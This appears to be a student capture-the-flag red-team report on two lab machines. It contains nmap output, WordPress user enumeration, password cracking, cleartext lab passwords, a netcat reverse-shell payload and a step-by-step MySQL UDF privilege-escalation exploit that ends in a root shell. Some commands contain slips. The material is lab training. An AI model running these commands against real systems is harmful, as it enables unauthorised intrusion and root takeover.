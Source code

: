# Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap -sC -sV 192.168.1.110
Starting Nmap 7.80 ( https://nmap.org ) at 2022-05-17 11:24 PDT
Nmap scan report for raven.local (192.168.1.110)
Host is up (0.00073s latency).
Not shown: 995 closed ports
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 26:81:c1:f3:5e:01:ef:93:49:3d:91:1e:ae:8b:3c:fc (DSA)
|   2048 31:58:01:19:4d:a2:80:a6:b9:0d:40:98:1c:97:aa:53 (RSA)
|   256 1f:77:31:19:de:b0:e1:6d:ca:77:07:76:84:d3:a9:a0 (ECDSA)
|_  256 0e:85:71:a8:a2:c3:08:69:9c:91:c0:3f:84:18:df:ae (ED25519)
80/tcp  open  http        Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Raven Security
111/tcp open  rpcbind     2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          33174/tcp   status
|   100024  1          41697/udp   status
|   100024  1          43643/tcp6  status
|_  100024  1          46476/udp6  status
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.2.14-Debian (workgroup: WORKGROUP)
MAC Address: 00:15:5D:00:04:10 (Microsoft)
Service Info: Host: TARGET1; OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

This scan identifies the services below as potential points of entry:
- Target 1
  - SSH on Port 22 verison 6.7p1
  - HTTP Apache Server on Port 80  version 2.4.10  
  - RPC on Port 111 
  - SMBD on Port 139 version 3.x -4.x
  - SMBD on Port 445 version 4.2.14

_TODO: Fill out the list below. Include severity, and CVE numbers, if possible._

The following vulnerabilities were identified on target 1:
- Target 1
  - Weak Passwords
    
   - Easy to crack and guess  
  
  - Exposed MYSQL credentials inside of file
  
  - User is able to run Python as Root 

_TODO: Include vulnerability scan results to prove the identified vulnerabilities._

### Exploitation
_TODO: Fill out the details below. Include screenshots where possible._

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  -  flag1{b9bbcb33e11b80be759c4e844862482d} 
    - Used google inspect element to find the flag hidden in the code
      - _TODO: Identify the exploit used_
      - _TODO: Include the command run_
  - `flag2.txt`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - WPSCAN to Enumerate Use
      - WPSCAN -url 192.168.1.110 --enumerate u
      - found user Michael
      -screenshot
      - Used  basic Brute force to SSH into Michael's user
      - Weak Password used (michael)
      ''' bash
      ssh michael@192.168.1.110
      '''
     -found flag inside of /var/www/html/ 
     -screenshot here
   -  flag3: flag3{afc01ab56b50591e7dccf93122770cd2}
   - Foound exposed mysql credentials inside of /var/www/html/wordpress/wp-config.php
    - mysql -u root -p
    - Found user password hashes after running:
      - select * from wp_users; 
    - screenshot
    - cracked password hashes with john 
    - screenshot
    - Found flag3 after running
     - select * from wp_posts;
     - screenshot
      -  
    - flag4:715dea6c055b9fe3337544932f2941ce}
   - logged into steven with password pink367 
    - ran sudo -l to see stevens permissions
    - screenshot
    - We can run python as sudo so we can create shell as root with python
    - https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#spawn-tty-shell
    -sudo python -c 'import pty; pty.spawn("/bin/sh")'
    - screen shot 
     
     
    ## Target 2
    
    Enumeration
    
    - nmap -sC -sV 192.168.1.115
    
    - nitko -C all -h 192.168.1.115 
   
  - flag1{a2c1f66d2b8051bd3a5874b5b6e43e21}
    - after enumerating directories found a vendor directory and found a flag inside ofthe PATH file
  
  - flag2{6a8ed560f0b5358ecf844108048eb337}
    -found information on version
    -screenshot 
    -found information on cves 
    -usew the backdoor exploit on the phpmailer 
    -gainer reverse shell on netcat 
      -used a url encoded reverse shell
      -cmd=nc%20<192.168.1.115>%204444%20-e%20/bin/bash
      -screenshot 
      -traversed directories and found flag2
    
  -flag 3 flag3{a0f568aa9de277887f37730d71520d9b}
  -find /var/www -type f -iname 'flag*'
  -this leads us to a png file 
  - we setup a simple http server insid the directory of the flagto download to the file to my attacking machine
  - python -m SimpleHTTPServer 8080 
  - wget http://192.168.1.115/flag3 

  - priveledge escalation
   - flag4{df2bc5e951d91581467bb9a2a8ff4425}
    - signed into mysql with credentials from last activity
           - enumerated the mysql for version number
           - after running linenum and outside research I foudn the machine is vulnerable to udf dynamic library exploit 1518.c
                - searchsploit –m 1518.c
                 -gcc -g -shared -Wl,-soname,1518.so -o 1518.so 1518.c -lc
                 -Setup python simple server to transfer 1518.so payload to ovictim machine
                 -mysql -u root -p
                 -use mysql;
                 -create table poo(line blob);
                  -insert into poo values(load_file('/tmp/1518.so'));
                  -select * from foo into dumpfile '/usr/lib/mysql/plugin/1518.so';
                  -create function do_system returns integer soname '1518.so';
                  -select do_system('chmod u+s /usr/bin/find');
                -now we head back to the /tmp directory
                  -touch raj
                    find raj –exec "whoami" \;
                    find raj –exec "/bin/sh" \;
                    cd /root
                    ls
                    cat flag4.txt
   
